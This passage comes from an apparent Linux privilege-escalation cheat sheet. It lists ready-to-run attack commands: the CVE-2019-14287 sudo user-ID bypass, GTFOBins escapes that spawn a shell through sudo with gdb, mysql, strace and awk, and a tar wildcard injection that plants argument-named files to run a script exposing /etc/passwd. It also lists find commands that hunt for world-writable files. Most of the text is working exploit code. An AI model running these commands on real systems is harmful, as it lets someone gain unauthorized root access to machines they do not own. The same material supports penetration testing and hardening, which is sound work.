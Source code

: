 Slides of the presentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)


### CVE-2019-14287

```powershell
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```

## GTFOBins

[GTFOBins](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit    
> sudo mysql -e '\! /bin/sh'    
> strace -o /dev/null /bin/sh    
> sudo awk 'BEGIN {system("/bin/sh")}'


## Wildcard

By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

```powershell
# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```

Tool: [wildpwn](https://github.com/localh0t/wildpwn)

## Writable files

List world writable files on the system.

```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
